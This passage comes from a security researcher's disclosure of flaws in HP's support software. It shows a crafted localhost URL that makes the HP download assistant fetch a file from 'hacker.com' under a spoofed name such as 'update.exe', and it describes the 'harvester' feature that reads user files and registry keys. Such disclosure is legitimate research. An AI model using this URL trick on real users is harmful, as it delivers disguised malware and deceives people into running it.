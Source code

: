     https://localhost:8092/hpdia/run?RemoteFile=https://hacker.com/messbox.exe&FileTitle=update.exe

Then this triggers the download assistant to start, which brings itself to the foreground downloads the file:

![](./Install_MFTZFC73.png)

I looked long and hard but the software doesn't automatically install anything without user interaction. However this doesn't render the attack useless, far from it. The attacker is able to control the displayed file title ("update.exe" in the screenshot) and can completely hide the real executable name by calling it "_.exe", which causes the download assistant to display "(.exe)" after it. One redeeming feature of this software is that it only accepts download requests for files that are served over HTTPS.

If an inexperienced user were to visit an malicious page that looked like a real HP site telling them to update their software and the HP download manager pops up I think many might press install, which would execute the attacker's malware and compromise their machines. For some advanced malware merely being downloaded could be enough.

*Edit:* Funnily enough I told my housemate about this and he said he had the HP download assistant pop up once while browsing a "dodgy torrent site". Perhaps this was already known?


### Harvesting users information
The software contains a large number of "harvesters" (named so in the code) which can be used to steal files from the users machines and read other system information like registry keys or driver details. This attack is bit more complex and targeted than the one above, but could be even more dangerous if executed correctly.

When an HP support technician attempts to diagnose problems with a customer's computer they may need to read specific files on the user's computer, or access other possibly sensitive information. The normal and legitimate steps taken by the software when a technician wishes to read information from the users machines are as follows (please excuse my terrible diagrams):

   1. The support technician issues a request to the program instructing it to run the "idfservice" controller
   2. This controller then makes an HTTP request to the host *diagsgmdextpro.houston.hp.com*, with the product line of the HP machine the user is using. This returns a list of files to harvest
   3. The program then reads the specified portions of the files and sends them back to *diagsgmdextpro.houston.hp.com*
   4. The support technician presumably accesses this information to diagnose any issues.

![](./HP_img_1_1_UEIGXEMD.png)

You can view an example of the servers response by visiting the following URL: [https://diagsgmdextpro.houston.hp.com/ediags/solutions/harvestertemplate?productLine=KV](https://diagsgmdextpro.houston.hp.com/ediags/solutions/harvestertemplate?productLine=KV), and below is a snippet of the result that instructs the software to read a registry key:

```xml
<TemplateFile>
   <FileName>Hewlett-Packard\\HPActiveSupport\\Version</FileName>
   <MatchType>regex</MatchType>
   <Matches>
      <MatchExpression i:nil="true"/>
      <Matches>
         <MatchData>
            <MatchExpression>
                ^HPSAVer: (\d{1,5}[.]\d{1,5}[.]\d{1,5}[.]\d{1,5}|[a-zA-z]+)$
            </MatchExpression>
            <Name>HPSAver</Name>
         </MatchData>
      </Matches>
      <Name i:nil="true"/>
   </Matches>
   <Source>registry</Source>
</TemplateFile>
```